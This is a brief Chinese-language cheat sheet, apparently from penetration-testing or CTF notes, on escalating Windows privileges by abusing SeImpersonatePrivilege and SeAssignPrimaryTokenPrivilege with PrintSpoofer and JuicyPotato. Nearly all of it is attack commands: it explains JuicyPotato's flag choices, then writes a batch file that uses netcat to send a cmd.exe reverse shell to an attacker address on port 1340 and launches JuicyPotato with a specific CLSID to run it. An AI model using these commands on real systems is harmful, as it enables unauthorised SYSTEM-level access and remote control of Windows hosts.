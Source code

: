 # SeImpersonatePrivilege或SeAssignPrimaryTokenPrivilege（或全有）

```clike
https://github.com/dievus/printspoofer
printspoofer.exe -i -c cmd
```

也可以使用烂土豆，稍微麻烦一点

```clike
如果开启SeImpersonate权限，juicypotato的参数可以使用-t t
如果开启SeAssignPrimaryToken权限，juicypotato的参数可以使用-t u
如果均开启，可以选择-t *
如果均未开启，那么无法提权
然后就是查看rpc端口号，如果不是135（例如111）
加参数 -n 111

烂土豆和nc事先传上去
echo C:\users\Destitute\appdata\local\temp\nc.exe -e cmd.exe 10.10.xx.xx 1340 > rev.bat

juicypotato.exe -p C:\users\Destitute\appdata\local\temp\rev.bat -l 1340 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```
